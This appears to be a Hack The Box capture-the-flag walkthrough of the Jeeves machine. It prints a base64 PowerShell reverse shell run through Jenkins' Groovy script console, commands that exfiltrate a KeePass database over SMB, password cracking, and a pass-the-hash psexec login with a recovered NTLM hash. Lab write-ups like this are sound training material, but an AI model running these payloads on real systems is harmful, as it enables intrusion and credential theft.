



# HTB - Jeeves

#### Ip: 10.10.10.63
#### Name: Jeeves
#### Rating: Medium

----------------------------------------------------------------------



### Enumeration

Lets kick things off by using Nmap to scan all TCP ports to see what's open on this box:

```text
┌──(ryan㉿kali)-[~/HTB/Jeeves]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.63                                                    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 15:49 CDT
Nmap scan report for 10.10.10.63
Host is up (0.070s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

Now lets further enumerate these open ports by scanning with the `-sC` and `-sV` flags to use basic scripts and to scan for version info:

```text
┌──(ryan㉿kali)-[~/HTB/Jeeves]
└─$ sudo nmap -sC -sV -T4 10.10.10.63 -p 80,135,445,50000                                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 15:51 CDT
Nmap scan report for 10.10.10.63
Host is up (0.066s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 5h00m00s, deviation: 0s, median: 4h59m59s
| smb2-time: 
|   date: 2023-05-04T01:51:46
|_  start_date: 2023-05-04T01:46:10

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.66 seconds
```

Lets also go ahead and kick off some directory scanning against the two ope http ports 80 and 50000, while we continue to poke around:


While my scans are running I take a look at SMB to see if we can access any shares, but with no luck.

Next I turn my attention to manually checking out the http sites.

Port 80 seems to be a non-functioning Ask Jeeves page, which throws an error with any searches:


While port 50000 throws a 404 error, and links to a Jetty webserver product page. Nothing too interesting yet.

Checking back on my Gobuster scans I see an interesting find for port 50000:


### Exploitation

Navigating to http://10.10.10.63:50000/askjeeves/ I find a Jenkins dashboard. Clicking around some I find I have the option to change the administrator's password. Lets update the credentials to admin:Password and see if we can login that way:


Nice! That worked! We can now successfully login as admin:


From here I was able to navigate to the Script Console. Now I can grab a base64 encoded PowerShell reverse shell from https://www.revshells.com/ and simply paste it in to the command prompt with a bit of Groovy script syntax:

```text
def command = "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOQAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
def proc = command.execute()
println(proc.in.text)
```


Which gets me back a a shell as user kohsuke:


where I can then grab user.txt


### Privilege Escalation

Looking around on the box I find an interesting file in the Documents directory:

```text                                                                
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx 
```

This appears to be a KeePass database, which may hold some valuable credentials we can use. 

Lets transfer this back to our machine using Impacket's SMB server:

Starting a server on my Kali machine:

```text
┌──(ryan㉿kali)-[~/HTB/Jeeves]
└─$ impacket-smbserver ryan .
```

 Connecting back to it from the target:
```text
net use * \\10.10.14.9\ryan
```

I can now copy the file back to my machine for inspection:

```text
copy C:\users\kohsuke\Documents\CEH.kdbx Z:\
```

Cool, now that the KeePass database is on my machine, I can use JohnTheRipper to bruteforce access to it:

```text
keepass2john CEH.kdbx > kee_hash.txt
```

Followed by:

```text
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt kee_hash.txt
```

We can crack the login password:



Great! Now we can begin to interact with the database from our command line:

```text
┌──(ryan㉿kali)-[~/HTB/Jeeves]
└─$ kpcli --kdb CEH.kdbx                                                          
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.
```
Just working down the line in order, I check out the contents of 'Backup stuff', and find what appears to be an NTLM hash, but with no username.

```text
kpcli:/> dir
=== Groups ===
CEH/
kpcli:/> cd CEH/
kpcli:/CEH> dir
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Windows/
=== Entries ===
0. Backup stuff                                                           
1. Bank of America                                   www.bankofamerica.com
2. DC Recovery PW                                                         
3. EC-Council                               www.eccouncil.org/programs/cer
4. It's a secret                                 localhost:8180/secret.jsp
5. Jenkins admin                                            localhost:8080
6. Keys to the kingdom                                                    
7. Walmart.com                                             www.walmart.com
kpcli:/CEH> show -f 0

Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes: 
```

Lets cross our fingers that this is the admin hash and we can simply PTH for admin access to the machine.

Wow! Just like that we're admin:

```text
┌──(ryan㉿kali)-[~/HTB/Jeeves]
└─$ impacket-psexec administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file wSmdopVZ.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service Pshy on 10.10.10.63.....
[*] Starting service Pshy.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
Jeeves

```
All that's left to do now is to grab the root.txt flag.

But, somewhat annoyingly, the root.txt flag doesn't appear to be in the Desktop directory, and instead we find a little clue:

```text
C:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```

No problem, we can still access the flag using `dir /R`  to find it and `more` to read it:



Thanks for following along!

-Ryan

------------------------------------------------------------------
